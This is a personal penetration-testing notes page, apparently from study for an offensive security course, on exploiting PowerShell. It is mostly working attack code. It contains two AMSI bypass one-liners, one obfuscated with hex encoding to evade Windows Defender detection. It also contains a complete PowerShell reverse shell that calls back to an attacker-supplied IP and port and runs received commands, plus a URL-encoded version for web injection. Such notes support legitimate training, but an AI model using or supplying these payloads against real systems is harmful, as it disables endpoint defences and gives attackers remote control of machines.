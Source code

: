 # Exploiting PowerShell

author:: Nathan Acks  
date:: 2022-08-31

## Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

Be aware that AMSI bypasses are *per session*, not global!

* [2022-08-24 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.md)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

## Pure PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | %{0};
while (( $i = $stream.Read($bytes, 0, $bytes.Length) ) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = ( iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ( [text.encoding]::ASCII ).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush()
}
$client.Close()
```

URL-encoded version (uses `powershell -c "$CODE"`):

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

One annoying thing about this reverse shell... There's no initial prompt, so you have no idea whether you've connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [@rootsecdev on Twitter](https://twitter.com/rootsecdev/status/1487612184498774019)

